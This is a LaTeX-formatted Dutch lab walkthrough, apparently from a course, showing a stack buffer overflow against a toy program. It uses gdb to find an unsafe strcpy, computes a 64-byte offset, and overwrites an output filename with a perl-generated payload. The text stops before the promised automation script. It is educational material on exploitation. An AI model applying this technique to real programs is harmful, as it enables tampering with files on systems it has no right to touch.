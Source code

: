 \begin{enumerate}
  \item gcc-3.3 -g -o gokkenvoorlosers gokkenvoorlosers.c
  \item gdb -q gokkenvoorlosers
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless bestandsnaam\textgreater
  		\item output
  		\item naam
  		\item strcpy(naam, bestandsnaam) op lijn 22
  		\item fprintf(fp, ...). De output wordt hier weggeschreven in gokverslaafden.txt
  			\begin{enumerate}
  			\item Initieel: docu ment	-10 000
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 23
  	\begin{enumerate}
  	\item Adres van output bekijken
  	\item Adres van naam bekijken
  	\end{enumerate}
  \item (gdb) run test
  \item (gdb) x/x output
  	\begin{enumerate}
  	\item 0xbffff630
  	\end{enumerate}
  \item (gdb) x/x naam
  	\begin{enumerate}
  	\item 0xbffff5f0
  	\end{enumerate}
  \item (gdb) print 0xbffff630 - 0xbffff5f0
  	\begin{enumerate}
  	\item \$1 = 64
  	\end{enumerate}
  \item (gdb) run ``\$(perl -e `print ``A''x64 . ``test'' ')''
  	\begin{enumerate}
  	\item gokverslaafden.txt bevat nu ``test''
  	\end{enumerate}
  \item Succes! Nu moeten we een programma schrijven die dit automatiseert.
  \item Een voorbeeld oplossing zou het volgende kunnen zijn:
\end{enumerate}

